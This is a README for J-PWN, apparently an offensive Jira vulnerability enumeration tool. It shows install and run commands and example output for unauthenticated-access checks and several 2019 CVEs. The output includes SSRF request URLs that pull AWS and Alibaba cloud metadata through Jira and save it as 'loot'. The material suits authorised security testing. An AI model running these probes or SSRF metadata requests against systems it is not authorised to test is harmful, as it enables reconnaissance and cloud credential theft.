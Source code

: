 # J-PWN
Jira Vulnerability Enumeration 
```
             ██╗      ██████╗ ██╗    ██╗███╗   ██╗
             ██║      ██╔══██╗██║    ██║████╗  ██║
             ██║█████╗██████╔╝██║ █╗ ██║██╔██╗ ██║
        ██   ██║╚════╝██╔═══╝ ██║███╗██║██║╚██╗██║
        ╚█████╔╝      ██║     ╚███╔███╔╝██║ ╚████║
         ╚════╝       ╚═╝      ╚══╝╚══╝ ╚═╝  ╚═══╝
         ** Hack the Planet ** [carnal0wnage]
```


## Wiki
There is an extensive wiki at [https://github.com/carnal0wnage/J-PWN/wiki](https://github.com/carnal0wnage/J-PWN/wiki)



## Quickstart 
### Install
```
python3  -m venv j-pwn
source j-pwn/bin/activate
pip3 install -r requirements
```
### Running J-PWN
`python3 j-pwn.py --single http://5.6.7.8:8080` (single host | all checks)

`python3 j-pwn.py --single https://1.2.3.4 -p /jira/` (single host | jira path added | all checks)

`python3 j-pwn.py --list ../jira-hosts.txt` (list of hosts | all checks)

`python3 j-pwn.py --single http://1.2.3.4:8080 --module check_open_jira_signup` (single module | single host)

`python3 j-pwn.py --list ../jira_hosts.txt --module check_open_jira_signup` (single module | list of hosts)

### Why
- more CVE checks
- HTTP 200 doesn't always mean vuln - do some checks
- HTTP 200 with Empty restults != vuln or interesting
- handle ssl errors
- handle jira at different paths `/, /jira/, /whatever/`
- brute force modules for projects and issues (and probably others)
- for fun 


### Example Data

Returns JIRA server version if JIRA is identified

```
+ JIRA is running on: https://jira1 

JIRA Server Information:
  Base URL        : https://jira1/jira
  Version         : 7.1.9
  Deployment Type : Server
  Build Number    : 71013
  Build Date      : 2016-06-27T00:00:00.000-0400
  Server Title    : JIRA

+ JIRA is running on: https://jira2

JIRA Server Information:
  Base URL        : https://jira2/jira
  Version         : 8.8.1
  Deployment Type : Server
  Build Number    : 808001
  Build Date      : 2020-04-22T00:00:00.000-0400
  Server Title    : Systems JIRA
```

### List the data if a JIRA server is vulnerable

ex: Unauthenticated Access to JIRA Admin Projects Detected
```
+ Unauthenticated Access to JIRA Admin Projects Detected
  URL: https://jira3/jira/rest/menu/latest/admin

  Admin Projects Details:
    - Key: admin
      Link: https://jira3/jira/secure/project/ViewProjects.jspa
      Label: JIRA administration
      Tooltip: 
      Local: True
      Self: True
      Application Type: jira
```
ex: Unauthenticated Access to JIRA Dashboards
```
+ Unauthenticated Access to JIRA Dashboards Detected
  URL: https://jira4/jira/rest/api/2/dashboard?maxResults=100
  Start At: 0
  Max Results: 100
  Total Dashboards: 1

  Dashboard Details:
    - ID: 10000
      Name: System Dashboard
      API URL: https://jira4/jira/rest/api/2/dashboard/10000
      View URL: https://jira4/jira/secure/Dashboard.jspa?selectPageId=10000
```
ex: Unauthenticated Access to JIRA Project Categories
```
+ Unauthenticated Access to JIRA Project Categories Detected
++ Manually check these for Unauthenticated Access ++
  URL: https://jira5/jira/rest/api/2/projectCategory?maxResults=1000

  Project Categories Details:
    - ID: 10003
      Name: Delivered
      Description: Project Delivered 
      API URL: https://jira5/jira/rest/api/2/projectCategory/10003
    - ID: 10400
      Name: Development
      Description: Development
      API URL: https://jira5/jira/rest/api/2/projectCategory/10400
    - ID: 10201
      Name: Internal
      Description: 
      API URL: https://jira5/jira/rest/api/2/projectCategory/10201
```

ex: CVE-2019-3403
```
+ CVE-2019-3403 Detected
  URL: https://jira3/jira/rest/api/2/user/picker?query=admin
  Total Users Found: 0
  Header: Showing 0 of 0 matching users
  User Details: No users listed.
```
ex: CVE-2019-8449
```
+ CVE-2019-8449 Detected
  URL: https://jira3/jira/rest/api/latest/groupuserpicker?query=1&maxResults=50000&showAvatar=true
  Total Users Found: 0
  User Header: Showing 0 of 0 matching users
  User Details: No users listed.
  Total Groups Found: 0
  Group Header: Showing 0 of 0 matching groups
  Group Details: No groups listed.
```

ex: CVE-2019-8442
```
- Checking URL: https://jira3/jira/s/thiscanbeanythingyouwant/_/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
- HTTP Status Code: 200
+ CVE-2019-8442 Detected: Information Disclosure vulnerability found!
  URL: https://jira3/jira/s/thiscanbeanythingyouwant/_/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml

- Checking URL: https://jira3/jira/s/thiscanbeanythingyouwant/_/META-INF/maven/com.atlassian.jira/jira-webapp-dist/pom.xml
- HTTP Status Code: 200
+ CVE-2019-8442 Detected: Information Disclosure vulnerability found!
  URL: https://jira3/jira/s/thiscanbeanythingyouwant/_/META-INF/maven/com.atlassian.jira/jira-webapp-dist/pom.xml
```

ex: CVE-2019-8451
```
INFO: Checking for CVE-2019-8451 (SSRF)
[Testing URL]: http://JIRASERVER:8080/plugins/servlet/gadgets/makeRequest?url=http://JIRASERVER:8080@example.com
[!!] [SSRF] Vulnerable to CVE-2019-8451 (SSRF): http://JIRASERVER/plugins/servlet/gadgets/makeRequest?url=http://JIRASERVER:8080@example.com
	Checking AWS Metadata
	----> AWS Metadata Not Found HTTP:500 
	----> HTTP Code: 200
throw 1; < don't be evil' >{"http://JIRASERVER:8080@169.254.169.254/latest/meta-data/":{"rc":500,"headers":{},"body":""}}
	Checking Alibaba Metadata
	----> Alibaba Metadata FOUND: http://JIRASERVER:8080/plugins/servlet/gadgets/makeRequest?url=http://JIRASERVER:8080@100.100.100.200/latest/meta-data/
<SNIP>

Exfiltrated data written to: loot/CVE-2019-8451_JIRASERVER:8080.txt
```
